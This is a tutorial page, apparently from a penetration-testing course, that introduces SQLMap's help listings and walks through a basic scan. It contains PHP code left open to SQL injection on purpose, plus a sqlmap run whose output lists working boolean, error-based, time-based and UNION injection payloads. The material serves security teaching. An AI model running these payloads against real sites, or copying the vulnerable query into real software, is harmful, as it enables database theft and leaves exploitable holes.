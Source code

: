 Upon starting using SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

- `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch`-h`):


```shell-session
smoothment@htb[/htb]$ sqlmap -h
 ___
 __H__
 ___ ___[']_____ ___ ___ {1.4.9#stable}
|_ -| . ["] | .'| . |
|___|_ [.]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
 -h, --help Show basic help message and exit
 -hh Show advanced help message and exit
 --version Show program's version number and exit
 -v VERBOSE Verbosity level: 0-6 (default 1)

 Target:
 At least one of these options has to be provided to define the
 target(s)

 -u URL, --url=URL Target URL (e.g. "http://www.site.com/vuln.php?id=1")
 -g GOOGLEDORK Process Google dork results as target URLs
...SNIP...
```

- `Advanced Listing` shows all options and switches (switch`-hh`):


```shell-session
smoothment@htb[/htb]$ sqlmap -hh
 ___
 __H__
 ___ ___[)]_____ ___ ___ {1.4.9#stable}
|_ -| . [.] | .'| . |
|___|_ [)]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
 -h, --help Show basic help message and exit
 -hh Show advanced help message and exit
 --version Show program's version number and exit
 -v VERBOSE Verbosity level: 0-6 (default 1)

 Target:
 At least one of these options has to be provided to define the
 target(s)

 -u URL, --url=URL Target URL (e.g. "http://www.site.com/vuln.php?id=1")
 -d DIRECT Connection string for direct database connection
 -l LOGFILE Parse target(s) from Burp or WebScarab proxy log file
 -m BULKFILE Scan multiple targets given in a textual file
 -r REQUESTFILE Load HTTP request from a file
 -g GOOGLEDORK Process Google dork results as target URLs
 -c CONFIGFILE Load options from a configuration INI file

 Request:
 These options can be used to specify how to connect to the target URL

 -A AGENT, --user.. HTTP User-Agent header value
 -H HEADER, --hea.. Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
 --method=METHOD Force usage of given HTTP method (e.g. PUT)
 --data=DATA Data string to be sent through POST (e.g. "id=1")
 --param-del=PARA.. Character used for splitting parameter values (e.g. &)
 --cookie=COOKIE HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
 --cookie-del=COO.. Character used for splitting cookie values (e.g. ;)
...SNIP...
```

For more details, users are advised to consult the project's [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), as it represents the official manual for SQLMap's usage.

---

## Basic Scenario

In a simple scenario, a penetration tester accesses the web page that accepts user input via a`GET` parameter (e.g.,`id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:


```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
 die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized:

 ![](https://academy.hackthebox.com/storage/modules/58/rOrm8tC.png)

To run SQLMap against this example, located at the example URL`http://www.example.com/vuln.php?id=1`, would look like the following:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
 ___
 __H__
 ___ ___[']_____ ___ ___ {1.4.9}
|_ -| . [,] | .'| . |
|___|_ [(]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done) 
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: id=1 AND 8814=8814

 Type: error-based
 Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
 Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
